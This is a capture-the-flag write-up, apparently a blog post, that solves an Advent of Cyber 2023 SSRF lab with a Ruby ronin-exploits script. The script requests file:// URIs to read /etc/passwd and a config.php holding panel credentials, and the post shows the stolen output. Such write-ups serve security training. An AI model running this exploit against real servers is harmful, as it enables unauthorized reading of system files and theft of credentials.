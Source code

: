 ```yaml
---
layout: post
title: Solving Advent of Cyber 2023 Day 22 with ronin-exploits
author: postmodern
tags:
  - adventofcyber
  - adventofcyber2023
  - ctf
  - tryhackme
  - ruby
  - ronin-exploits
  - writeup
---
```


This year I decided to try using Ronin to solve the [Advent of Cyber 2023]
challenges. Let's see how far I can get.

We made it to Day 22 of Advent of Cyber 2023. This challenge involves exploiting
a super simple [Server Side Request Forgery (SSRF)][SSRF] vulnerability.
While most SSRF vulnerabilities allow sending HTTP requests to internal
web servers, the instructions hint that you can also send `file://` URIs and
request local files. You could solve this challenge only using `curl`,
but I decided to use [ronin-exploits] to write a SSRF exploit that requests a
local file.

First we will use the `ronin-exploits new` command to generate a new web
exploit. We will also enable the [Loot mixin][Ronin::Exploits::Mixins::Loot]
to store the requested files.

```shell
$ ronin-exploits new --type web --loot jingle_bells_ssrf.rb
	erb	exploit.rb.erb	jingle_bells_ssrf.rb
	chmod	jingle_bells_ssrf.rb
```

Testing the vulnerable `/getClientData.php` HTTP end-point shows that local
files requested with `file://` are returned in the HTTP response body.
Requesting a file that does not exist on the system will result in a HTTP 200
response, but with an empty response body. To send the HTTP request, we will use
the [http_get_body] helper method, which accepts a path and additional query
params, sends a HTTP `GET` request, and returns the response body as a String.
We will also need to define a `file` param for the local file we wish to
request via `file://` SSRF. Since this is a super simple SSRF exploit,
we will only need to fill in the `launch` method.

```ruby
#!/usr/bin/env -S ronin-exploits run -f

require 'ronin/exploits/web'
require 'ronin/exploits/mixins/loot'

module Ronin
  module Exploits
    class JingleBellsSSRF < Web

      include Mixins::Loot

      register 'jingle_bells_ssrf'

      quality :poc
      release_date '2023-12-22'

      author "Postmodern", email: "postmodern.mod3@gmail.com"
      summary "Advent of Cyber 2023 Day 22"
      description <<~DESC
        A Basic SSRF exploit for Advent of Cyber 2023 Day 22 aka
        "Jingle Your SSRF Bells: A Merry Command & Control Hackventure".
      DESC
      references [
        "https://tryhackme.com/room/adventofcyber2023"
      ]

      param :file, required: true,
                   desc:     'The path of the local file to request'

      def launch
        file_uri = "file://#{params[:file]}"
        response = http_get('/getClientData.php', query_params: {url: file_uri})

        if response.code == '200' && !response.body.empty?
          print_success "Got the file!"

          loot.add(params[:file],response.body)
        else
          fail("Failed to request the file: #{params[:file]}")
        end
      end

    end
  end
end
```

Now that our exploit is written, let's run it!

```
$ ./jingle_bells_ssrf.rb -p base_url=http://10.10.108.219 -p file=/etc/passwd
>>> Running exploit jingle_bells_ssrf ...
[+] Got the file!
>>> Exploit found the following loot:

  /etc/passwd:

    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
    systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
    systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
    messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
    syslog:x:104:110::/home/syslog:/usr/sbin/nologin
    _apt:x:105:65534::/nonexistent:/usr/sbin/nologin
    tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
    uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
    tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
    sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
    landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin
    pollinate:x:111:1::/var/cache/pollinate:/bin/false
    ec2-instance-connect:x:112:65534::/nonexistent:/usr/sbin/nologin
    systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
    ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
    lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
    mysql:x:113:119:MySQL Server,,,:/nonexistent:/bin/false

```

We have successfully exploited the SSRF vulnerability and achieved local file
read access. The challenge instructions hints that we should try requesting
`config.php` from the `/var/www/html/` directory, which may contain the C2
panel's credentials.

```
$ ./jingle_bells_ssrf.rb -p base_url=http://10.10.108.219 -p file=/var/www/html/config.php
```
```
>>> Running exploit jingle_bells_ssrf ...
[+] Got the file!
>>> Exploit found the following loot:

  /var/www/html/config.php:

    <?php
    $username = "mcgreedy";
    $password = "mcgreedy!@#$%";
    
    ?>

```

Jack pot!

As you can see, [ronin-exploits] makes it easy to write [SSRF] exploits and
exfiltrate files.

[SSRF]: https://owasp.org/www-community/attacks/Server_Side_Request_Forgery
[ronin-exploits]: https://github.com/ronin-rb/ronin-exploits#readme
[Ronin::Exploits::Mixins::Loot]: https://ronin-rb.dev/docs/ronin-exploits/Ronin/Exploits/Mixins/Loot.html
[http_get_body]: https://ronin-rb.dev/docs/ronin-exploits/Ronin/Exploits/Mixins/HTTP.html#http_get_body-instance_method
